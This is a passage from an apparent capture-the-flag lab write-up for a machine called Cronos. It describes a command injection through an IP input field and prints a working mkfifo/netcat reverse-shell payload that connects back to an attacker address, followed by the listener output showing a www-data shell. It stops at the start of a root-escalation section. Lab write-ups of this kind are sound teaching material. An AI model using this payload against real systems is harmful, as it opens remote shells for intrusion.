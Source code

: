 ### Command Injection

It seems that it allows **Command Injection** via IP input.

![](attachments/cronos_5.png)

![](attachments/cronos_6.png)

It seems that I don't need to escape space or special characters.
I opened a reverse shell with the following payload:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 9000 >/tmp/f`

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9000                        
listening on [any] 9000 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.13] 40842
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I got `www-data`'s shell.



# Shell as `root`

### Enumeration
